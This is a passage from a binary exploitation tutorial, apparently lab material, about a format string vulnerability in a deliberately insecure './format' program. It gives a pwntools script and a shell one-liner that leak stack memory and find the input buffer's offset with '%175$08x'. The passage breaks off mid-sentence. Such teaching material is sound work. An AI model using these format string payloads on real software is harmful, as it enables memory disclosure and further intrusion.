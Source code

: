 Command-line Python exploits tend to get very tedious and hard to read when the payload gets more complex.
You can use the following reference pwntools script to write your exploit.
The code is equivalent to the above one-liner.

```python
#!/usr/bin/env python3
 
from pwn import *
 
stack_items = 200
 
pad = b"ABCD"
val_fmt = b"%08x\n   "
# add a \n at the end for consistency with the command-line run
fmt = pad + val_fmt * stack_items + b"\n"
 
io = process(["./format", fmt])
 
io.interactive()
```

Then call the `format` using:

```console
python exploit.py
```

One idea is to keep things in multiple of 4, like "%08x \\n".
If you are looking at line `175` we have `44434241` which is the base 16 representation of `ABCD` (because it's little endian).
Note, you can add as many format strings you want, the start of the buffer will be the same (more or less).

We can compress our buffer by specifying the position of the argument.

```console
$ ./format $(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"AAAAAAAA" * 199 + b"%175$08x")')
ABCDAAAAAAAA...AAAAAAAAAAAAAAAAAAAAAAAAAAAA44434241
This is the most useless and insecure program!
```

`b"AAAAAAAA" * 199` is added to maintain the length of the original string, otherwise the offset might change.

You can see that the last information is our `b"ABCD"` string printed with `%08x` this means that we know where our buffer is.

You need to enable core dumps in order to reproduce the steps below:

```console
ulimit -c unlimited
```

The steps below work an a given version of libc and a given system.
It's why the instruction that causes the fault is
